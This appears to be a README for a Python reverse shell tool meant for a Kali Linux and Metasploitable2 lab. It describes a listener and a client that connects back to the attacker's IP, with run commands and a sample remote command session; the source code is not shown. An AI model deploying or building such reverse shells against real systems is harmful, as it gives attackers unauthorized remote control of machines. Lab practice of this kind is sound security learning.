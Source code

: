 # Reverse Shell Tool

## Overview

This is a reverse shell implementation that allows an attacker to establish a remote command execution session with a target machine. The setup consists of two components: a listener (server.py) running on the attacker's machine (Kali Linux) and a client (revshell.py) running on the target machine (Metasploitable2). The client connects back to the attacker's machine, establishing a reverse connection that bypasses firewalls and NAT configurations.

## Prerequisites

### Required Packages

No additional packages are required beyond Python's standard library. The implementation uses built-in modules:
- `socket` for network communication
- `json` for data serialization
- `subprocess` for command execution
- `os` for file system operations

## Usage

### Scenario Setup

**Attacker Machine (Kali Linux)**: Runs `server.py` as a listener
**Target Machine (Metasploitable2)**: Runs `revshell.py` as a client that connects back

### Step 1: Start the Listener (Attacker - Kali Linux)

```bash
python3 server.py
```

This will:
1. Start listening on IP `192.168.64.2` port `4444`
2. Display "Listening..." message
3. Wait for incoming connections from the target machine

### Step 2: Execute the Client (Target - Metasploitable2)

```bash
python3 revshell.py
```

This will:
1. Attempt to connect to the attacker's machine at `192.168.64.2:4444`
2. If connection fails, retry every 5 seconds
3. Once connected, wait for commands from the attacker

### Step 3: Command Execution

Once the connection is established:
1. The attacker can type commands at the prompt: `192.168.64.2: `
2. Commands are sent to the target machine
3. The target executes the commands and returns the output
4. Results are displayed on the attacker's terminal

### Example Session

**Attacker Terminal (Kali Linux):**
```
Listening...
Connection from ('192.168.64.3', 54321) established.
Please type your command
192.168.64.2: whoami
www-data
192.168.64.2: pwd
/var/www
192.168.64.2: ls -la
total 8
drwxr-xr-x 2 www-data www-data 4096 Jan 15 10:30 .
drwxr-xr-x 3 root     root     4096 Jan 15 10:30 ..
-rw-r--r-- 1 www-data www-data   20 Jan 15 10:30 index.html
192.168.64.2: exit
```

**Target Terminal (Metasploitable2):**
```
Received: whoami
Result: www-data
Received: pwd
Result: /var/www
Received: ls -la
Result: total 8
drwxr-xr-x 2 www-data www-data 4096 Jan 15 10:30 .
drwxr-xr-x 3 root     root     4096 Jan 15 10:30 ..
-rw-r--r-- 1 www-data www-data   20 Jan 15 10:30 index.html
```

### Configuration

**Important**: Update the IP addresses in both files to match your network configuration:

- In `server.py` line 5: Change `server_ip = '192.168.64.2'` to your Kali Linux IP
- In `revshell.py` line 46: Change `'192.168.64.2'` to your Kali Linux IP

### Features

- **Automatic Reconnection**: Client automatically retries connection if it fails
- **Directory Navigation**: Supports `cd` command for changing directories
- **Real-time Command Execution**: Commands are executed immediately upon receipt
- **JSON Communication**: Uses JSON for reliable data transmission
- **Graceful Exit**: Type `exit` to terminate the session


